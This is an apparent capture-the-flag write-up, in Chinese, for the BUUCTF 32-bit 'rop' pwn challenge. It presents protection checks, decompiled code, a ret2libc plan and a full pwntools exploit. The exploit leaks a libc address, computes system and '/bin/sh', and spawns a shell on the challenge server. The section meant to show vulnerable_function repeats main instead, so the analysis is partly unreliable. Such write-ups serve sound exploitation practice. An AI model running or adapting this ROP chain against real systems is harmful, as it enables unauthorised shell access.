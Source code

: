 ```yaml
---
author: 
  name: Zephyr
title: 铁人三项(第五赛区) 2018 rop
date: 2022-3-22 19:20:03
permalink: /pages/2e1547494524d18b
tags: 
  - buuctf
  - pwn
  - StackOverflow
---
```


# 铁人三项(第五赛区) 2018 rop

## 前提

### 查看文件保护

```shell
[*] '/root/pwn/buuctf/铁人三项_第五赛区_2018_rop/2018_rop'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

## 静态分析

主函数如下

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  be_nice_to_people();
  vulnerable_function();
  return write(1, "Hello, World\n", 0xDu);
}
```

vulnerable_function函数如下

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  be_nice_to_people();
  vulnerable_function();
  return write(1, "Hello, World\n", 0xDu);
}
```



## 思路分析

1. 目前信息：
   - `vulnerable_function`函数内明显的栈溢出漏洞
   - No PIE
   - NX 保护开启
   - 无后门函数

2. 思路：
   - 本题是标准的`ret2libc`，应先泄漏`libc`及函数地址，再利用泄漏的信息构造`payload`,执行获取`shell`

## exp

```python
from pwn import *
from LibcSearcher import *
context(os='linux', arch='i386', log_level='debug')
pwnfile = '/root/pwn/buuctf/铁人三项_第五赛区_2018_rop/2018_rop'
io = remote('node4.buuoj.cn', 28626)
# io = process(pwnfile)
elf = ELF(pwnfile)
libc_start_main_addr = elf.got['__libc_start_main']
write_addr = elf.plt['write']
vulnerable_function_addr = elf.symbols['vulnerable_function']
padding = 0x88+4
pop_3times_ret = 0x0804855d
payload = flat(['a'*padding, write_addr, pop_3times_ret, 1,libc_start_main_addr, 4, vulnerable_function_addr])
io.sendline(payload)
leak_libc_start_main_addr = u32(io.recv())
libc = LibcSearcher('__libc_start_main', leak_libc_start_main_addr)
libcbase = leak_libc_start_main_addr-libc.dump('__libc_start_main')
system_addr = libcbase+libc.dump('system')
bin_sh_addr = libcbase+libc.dump('str_bin_sh')
payload = flat(['a'*padding, system_addr, 0xdeadbeef, bin_sh_addr])
io.sendline(payload)
io.interactive()
```
